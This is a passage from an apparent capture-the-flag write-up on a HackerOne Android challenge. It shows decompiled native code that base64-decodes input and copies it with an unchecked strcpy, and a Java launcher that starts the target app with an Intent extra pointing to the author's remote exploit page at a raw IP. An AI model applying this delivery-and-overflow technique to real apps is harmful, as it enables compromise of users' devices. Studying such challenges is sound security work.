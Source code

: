 ```c
    v9 = (*(__int64 (__fastcall **)(__int64, _QWORD))(*(_QWORD *)a1 + 1408LL))(a1, v4);
    (*(void (__fastcall **)(__int64, __int64, _QWORD, _QWORD, __int64 *))(*(_QWORD *)a1 + 1664LL))(
      a1,
      v9,
      0LL,
      v4,
      &v11);
  }
  else
  {
    free(v8);
    v9 = 0LL;
  }
  result = __readfsqword(0x28u);
  if ( result == v13 )
    result = v9;
  return result;
}
```

Glancing over the code, we can spot some keywords: b64_decode, and strcpy with dest in it. It was REALLY difficult to deduce its functionality from this. It took me days upon days of thinking in order to finally surmise that this function b64decodes the input you give it, and copies it to dest.

Lets try actually interacting with this function. We can be lazy and copy paste some code from Google to launch the challenge app with an Intent extra pointing to our webpage:

```java
package alex.com.chal5;

import android.content.Intent;
import android.support.v7.app.AppCompatActivity;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent launchIntent = getPackageManager().getLaunchIntentForPackage("com.hackerone.mobile.challenge5");
        launchIntent.putExtra("url", "http://67.205.144.40/c5.html");
        if (launchIntent != null) {
            startActivity(launchIntent);//null pointer check in case package name was not found
        } else {
            System.out.println("APP NOT FOUND");
        }

    }
}
```
